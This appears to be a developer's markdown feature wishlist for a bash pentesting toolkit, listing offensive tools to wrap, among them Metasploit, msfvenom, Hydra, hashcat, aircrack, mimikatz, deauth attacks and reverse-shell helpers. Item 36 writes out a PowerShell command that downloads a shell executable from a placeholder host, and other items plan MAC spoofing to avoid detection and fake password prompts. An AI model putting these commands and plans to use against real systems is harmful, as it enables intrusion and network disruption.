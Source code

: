 # Future Features

**This is the resource schedule, if you need something that is not on that list you have three options:**\
**1 -** You can request the resource for me, if it is a good idea I will implement it, but at the end of the task list.\
**2 -** If you need urgency, you can write the code and send it to me.\
**3 -** Pay me to implement the feature.\

**This list is constantly evolving, so duplicate items or grammatical errors are common here. Imagine this page as a great brainstorm.**\
**If you have any ideas, you can branch this page and commit to me. If the idea is good, I will implement**\

**1 -** The change mac menu is not working? Check this\
**2 -** Change and test torghost option to torghostNG\
**3 -** Implement Jhon the reaper here, there is a logic on my notion page\
**4 -** Change al the things that i need to chose an wifi card to the already developed selectedwificard\
**5 -** Study and implment nmap(Don't forget to make some funcion using -sS --script vuln) and put a option to chose the type of verbosity\
**6 -** Study and implment some functions using psexec.py\
**7 -** Study and implement mssqlclient.py.\
**8 -** There are other great tools in inpackt? like psexec and mssqlclient, check and implement.\
**9 -** Implement a menu to creat an temporary server using python, like python3 -m http.server 80, and the path to the server\
**10 -** Revist the script, read top from boton and see what can be done better\
**11 -** Change all the variables in the script to lowercase, its a best pratice\
**12 -** Check if there is a way to implment automatizations in metasploit here, to automate some tasks\
**13 -** Study and implement GoBuster, but, what i do about dirbuster?\
**14 -** Implement a menu for airodump and aircrack, to show conections, put in monitor mode and other functions\
**18 -** Implement Hydra, there is a logic in my Notion page\
**19 -** If i choose to mantin dirsearch, maybe i will need to put as root because the logs are not saving correctly\
**20 -** Revist the script, read top from boton and see what can be done better\
**21 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**22 -** Replace where is "test" for [[comand]]. Test is a obsolete function\
**22 -** Study and implment the crunch password, its great to create password lists\
**23 -** Revitalize the menu, style is everithing.\
**24 -** Study who to implement pyshark here, or maybe wait until this script be reworked in python\
**25 -** Study and implement responder.py\
**26 -** Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script\
**27 -** Study and implement hashcat\
**27 -** Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness\
**28 -** Replace all echos for printf, its better\
**29 -** See how i avoid to use eval, its too bat for security\
**30 -** Revist the script, read top from boton and see what can be done better\
**31 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**32 -** Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile\
**33 -** Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux\
**34 -** Study Msfvnom and implement, it is an excelent payload generator[:]\
**35 -** Study and implent pwncat\
**36 -** Create a menu with utilstuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell\
**37 -** study the best directory wordlist, to use in dirbuster or afuzz, or another tool\
**38 -** Study and implement wpscan, its a good tool to break into wordpress sites\
**39 -** Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some already created linux tools for this maybe only implement is suficient\
**40 -** Revist the script, read top from boton and see what can be done better\
**41 -** Study and implement rustscan, its a realy good tool.\
**42 -** Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts\
**43 -** Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti\
**44 -** Create a Function who update the script with the last features implemented in the github version\
**45 -** If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible\
**46 -** Organize the menu in a better way, is too confuse\
**47 -** Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"\
**48 -** Study massscan, its good for mass scaning ports, or rustscan? What is better?\
**49 -** Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about\
**50 -** Revist the script, read top from boton and see what can be done better\



**51 -** Study and implement msfvenom its a great tool to make palyloads\
**52 -** Study and implement nikto\
**53 -** Study and implement termshark, its good to see pcaps in terminal\
**54 -** Study and implement FFUF, its really fast because its in go\
**55 -** Implement option so search ".bak" in in websearches, it really good to see some codes, in cgi-bin its good to search for .sh for exemplo because shell shock atacks\
**56 -** Study and implement Uchecker, its a good tool to check for not uptodate tools on servers\
**57 -** Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users\

Remove cpf generator, there is better tools online\
 Study and implment sublist3r, its a really great scanner for subdomains ussing ossint\
Study and implement pwncat, its a really great reverse shell hander, is the one by calleb stuart, not the other\
Study and implment nikton its a good webscaner\
Study and implment social engenner tookit, its really god to work with social engineer\
Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter\
Implement wfuzz its preaty great\
Study and Implement Sqlmap\
Implement te 'sectlist' program from kali, its a copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?\
Study and implent enum4linux, its preaty good to use to enumerate samba shares\
Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose\
Study and implement sherlock, its a great tool for OSINT\
Study and implement airgedon its good to do deauth atacks in softwarey\
What i can do to make this script more beautiful? Maybe some colors or ident?\
Maybe Implement RustScan? Its so fast
